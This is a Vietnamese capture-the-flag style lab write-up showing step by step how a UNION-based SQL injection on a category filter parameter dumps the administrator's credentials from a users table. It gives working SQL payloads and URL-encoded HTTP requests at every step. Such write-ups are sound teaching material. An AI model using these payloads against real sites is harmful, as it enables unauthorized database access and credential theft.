






# SQL Injection Lab 09: Truy xuất dữ liệu từ bảng khác bằng UNION

## Mục tiêu
Dùng `UNION SELECT` để lấy `username` và `password` từ bảng `users`, sau đó đăng nhập tài khoản `administrator`.


<br><br>

## Các bước thực hiện
1. Xác định số cột của truy vấn gốc.

Payload:

```sql
' union select null, null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20null%20-- HTTP/2
```

Kết quả hiển thị bình thường, suy ra truy vấn có **2 cột**.


<br><br>

2. Xác định cột có thể hiển thị dữ liệu text.

Payload test:

```sql
' union select 'abc', null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20%27abc%27%2C%20null%20-- HTTP/2
```

Kết quả có hiển thị `abc`, nên cột 1 có thể chứa text.


<br><br>

3. Liệt kê các bảng trong database từ `information_schema.tables`.

Payload:

```sql
' union select table_name, null from information_schema.tables --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20table_name%2C%20null%20from%20information_schema.tables%20-- HTTP/2
```

Quan sát thấy có bảng `users`.


<br><br>

4. Liệt kê cột của các bảng bằng `information_schema.columns` để tìm cột đăng nhập.

Payload:

```sql
' union select column_name, null from information_schema.columns --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20column_name%2C%20null%20from%20information_schema.columns%20-- HTTP/2
```

Xác nhận có các cột `username` và `password`.


<br><br>

5. Lấy thông tin tài khoản `administrator` từ bảng `users`.

Payload:

```sql
' union select username, password from users where username = 'administrator' --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20username%2C%20password%20from%20users%20where%20username%20%3D%20%27administrator%27%20-- HTTP/2
```

Response trả về username và password của `administrator`.


<br><br>

6. Dùng mật khẩu vừa lấy để đăng nhập tài khoản `administrator` và hoàn thành lab.

## Payload solve

```sql
' union select username, password from users where username = 'administrator' --
```
